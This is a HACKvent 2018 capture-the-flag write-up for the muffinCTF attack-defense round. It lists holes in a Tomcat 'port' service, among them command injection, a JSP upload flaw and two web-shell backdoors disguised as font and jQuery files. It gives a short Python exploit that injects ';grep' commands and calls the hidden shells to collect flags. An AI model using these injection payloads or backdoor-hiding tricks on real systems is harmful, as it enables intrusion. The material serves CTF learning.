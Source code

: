 # Day 22: MuffinCTF

*Day 2*

```
DAY 2 Services
--------------------------------------------

             ,-_                  (`  ).
             |-_'-,              (     ).
             |-_'-'           _(        '`.
     _        |-_'/        .=(`(      .     )
     /;-,_     |-_'        (     (.__.:-`-_.'
     /-.-;,-,___|'          `(       ) )
     /;-;-;-;_;_/|\_ _ _ _ _   ` __.:'   )
     x_( __`|_P_|`-;-;-;,|        `--'
     |\ \    _||   `-;-;-'
     | \`   -_|.      '-'
     | /   /-_| `
     |/   ,'-_|  \
     /____|'-_|___\
     _..,____]__|_\-_'|_[___,.._
     '                          ``'--,..,.

    Name: mill
    Description:
        The wheels are moving all day here.
        The best flour in the whole city is produced in this mill.
        Improve the security of the mill.
        And reduce production rate of food for enemy nations.
    Creator: xorkiwi

                        __--___
                      >_'--'__'
                     _________!__________
                    /   /   /   /   /   /
                   /   /   /   /   /   /
                  |   |   |   |   |   |
             __^  |   |   |   |   |   |
           _/@  \  \   \   \   \   \   \
          S__   |   \   \   \   \   \   \         __
         (   |  |    \___\___\___\___\___\       /  \
             |   \             |                |  |\|
             \    \____________!________________/  /
              \ _______OOOOOOOOOOOOOOOOOOO________/
               \________\\\\\\\\\\\\\\\\\\_______/
     %%%^^^^^%%%%%^^^^!!^%%^^^^%%%%%!!!!^^^^^^!%^^^%%%%!!^^
     ^^!!!!%%%%^^^^!!^^%%%%%^^!!!^^%%%%%!!!%%%%^^^!!^^%%%!!

    Name: port
    Description:
        There are ships coming from a long distance.
        At the top of the light house you can have a nice view at the sea.
        Attention, make sure that there are no enemy ships coming into our port.
        Maybe you want to send some ships of us to remind them of our offensive capabilities.
    Creator: xorkiwi
```

Login to: [muffinCTF](http://whale.hacking-lab.com:9280/)

### Description

To get the HACKvent day 22 (muffinCTF day 2), you had to achieve the following requirements, in at least 2 of the last 5 ticks (1 tick = 3 minutes).

Have [mill](files/mill.zip) or/and [port](files/port.zip) service running with the following stats:
 - attack points > 20
 - maximal defense points
 - maximal availability points
 
Here is a copy of the [official instructions](INSTRUCTIONS.md).

### Solution

I completely skipped the mill service and focused solely on the port written in Java. Here is what I found.

##### Port

- Arbitrary command execution in `/opt/tomcat/apache-tomcat-9.0.8/webapps/ROOT/searchPortname.jsp`
- Arbitrary JSP page upload in `/opt/tomcat/apache-tomcat-9.0.8/webapps/ROOT/WEB-INF/classes/com/servlet/FileUploadServlet.class`
- Sneaky remote shell backdoor hidden in `/opt/tomcat/apache-tomcat-9.0.8/webapps/ROOT/css/themes/default/assets/fonts/icons.svg.jsp`
- Another sneaky remote shell hidden in `/opt/tomcat/apache-tomcat-9.0.8/webapps/ROOT/js/Framework/jquery.min/javascript/plugins/lib/jquery.min.js.jsp`

I patched my service, removed subdirectory `default` and started it.

Then I picked few of those vulnerabilities I found and wrote this exploit which earned me the flag.

```python
def port_exploit(attack_url):
    output = ''

    # grep -hra muffinCTF /opt/tomcat/tomcat-latest/webapps/ROOT/uploads
    output += get_flags(attack_url + 'searchPortname.jsp?port=google.com%3Bgrep+-hra+muffinCTF+/opt/tomcat/tomcat-latest/webapps/ROOT/uploads')
    output += get_flags(attack_url + 'css/themes/default/assets/fonts/icons.svg.jsp?cmd=grep+-hra+muffinCTF+/opt/tomcat/tomcat-latest/webapps/ROOT/uploads')
    output += get_flags(attack_url + 'js/Framework/jquery.min/javascript/plugins/lib/jquery.min.js.jsp?cmd=grep+-hra+muffinCTF+/opt/tomcat/tomcat-latest/webapps/ROOT/uploads')

    return output

muffin_ctf.attack_all('port', port_exploit)
```

Complete source code of my exploit can be found [here](../../src/main/python/hackvent2018/Day22.py).

This is the flag I got.

```
HV18{muffinCTF{d4y_2_g0sh_y0ur_r34lly_pwn1n_th3_stuff_l3l_g00d_b0y_g0_4h34d}}
```
